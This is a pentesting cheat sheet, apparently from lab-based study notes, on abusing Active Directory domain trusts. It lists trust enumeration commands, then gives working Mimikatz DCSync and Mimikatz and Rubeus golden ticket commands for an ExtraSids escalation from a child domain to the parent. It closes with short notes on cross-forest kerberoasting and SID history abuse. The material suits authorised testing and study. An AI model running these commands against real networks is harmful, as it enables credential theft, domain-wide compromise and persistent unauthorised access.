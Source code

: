 # Domain Trusts

> * A trust is used to establish forest-forest or domain-domain (intra-domain) authentication, which allows users to access resources in (or perform administrative tasks) another domain, outside of the main domain where their account resides.
> * A trust creates a link between the authentication systems of two domains and may allow either one-way or two-way (bidirectional) communication.

## **Enumerating Trust Relationships**

1. Enumerate trust relationships:\
   `Import-Module activedirectory` followed by `Get-ADTrust -Filter *`
2. Check existing trusts:\
   `Import-Module .\PowerView.ps1` followed by `Get-DomainTrust` or `Get-DomainTrustMapping`
3. Check users in other Domain:\
   `Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName`
4. Query domain trust: `netdom query /domain:inlanefreight.local trust`
5. Query domain controllers: `netdom query /domain:inlanefreight.local dc`
6. Query workstations and servers: `netdom query /domain:inlanefreight.local workstation`
7. Bloodhound: `Map Domain Trusts` pre-built query.

## **ExtraSids Attack (Child to Parent Trust)**

> sidHistory is an attribute used in migration scenarios: when a user in one domain is migrated to another domain, a new account is created in the second domain. The original user's SID will be added to the new user's SID history attribute, ensuring that the user can still access resources in the original domain. SID history is intended to work across domains, but can work in the same domain.\
> \
> An attacker can perform SID history injection and add an administrator account to the SID History attribute of an account they control. When logging in with this account, all of the SIDs associated with the account are added to the user's token.\
> \
> If the SID of a Domain Admin account is added to the SID History attribute of this account, then this account will be able to perform DCSync and create a Golden Ticket or a Kerberos ticket-granting ticket (TGT), which will allow for us to authenticate as any account in the domain of our choosing for further persistence.

**ExtraSids - Creating a Golden Ticket with Mimikatz or Rubeus**

* Suppose you already compromised the child domain and have domain admin access or similar.
* In order to create a golden ticket, you need to find the following:
  * Child domain's KRBTGT account's NT Hash.\
    Mimikatz: `lsadump::dcsync /user:CHILDDOMAIN\krbtgt`
  * Child domain's SID.\
    Use `Get-DomainSID`
  * Child domain's enterprise admin group's SID.\
    Use `Get-DomainGroup -Domain DOMAIN.NAME -Identity "Enterprise Admins" | select distinguishedname,objectsid`
* To create a golden ticket:
  * Mimikatz: `kerberos::golden /user:fakeuser /domain:CHILD.DOMAIN.LOCAL /sid:child-domain-sid /krbtgt:krbtgt-nt-hash /sids:enterprise-admins-group-sid /ptt`
  * Rubeus: `.\Rubeus.exe golden /rc4:krbtgt-nt-hash /domain:CHILD.DOMAIN.LOCAL /sid:child-domain-sid /sids:enterprise-admins-group-sid /user:fakeuser /ptt`
* Use `klist` to check if the Kerberos Ticket is in memory for the previously specified user (which doesn't need to exist).
* You can now list all the contents of the Domain Controller's C drive, perform DCSync and so on

## **Cross-Forest Trust Abuse**

* In a Cross-Forest trust relationship, you can perform cross-forest kerberoasting by just specifying the target domain
* It is also possible to perform cross-forest sid history abuse if SID Filtering is not enabled
* Sometimes, you can find admin password re-use and misconfigured group memberships in a cross-forest trust
